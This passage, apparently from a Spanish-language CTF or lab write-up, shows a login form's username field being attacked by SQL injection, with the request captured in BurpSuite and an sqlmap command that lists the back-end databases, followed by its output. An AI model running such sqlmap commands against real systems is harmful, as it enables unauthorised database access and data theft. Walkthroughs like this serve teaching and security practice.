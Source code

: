 - Por lo que sabemos que el campo username es vulnerable a `SQLINJECTION`

---------------
# SQLMAP INJECTIONS

>Vamos a capturar la petición del panel de `Login` con `BurpSuite` para poder utilizar la herramienta `SQLMap` e intentar extraer información de la Base de Datos.

![Pasted image 20240909235320.png](/assets/images/ToolBox/Pastedimage20240909235320.png)

>Comandos de `SQLMap`

- Comando para `dumpear` el nombre de las Bases de Datos del sistema

```bash
❯ sqlmap -r request.txt -p username --batch --dbs --force-ssl
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.3#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```
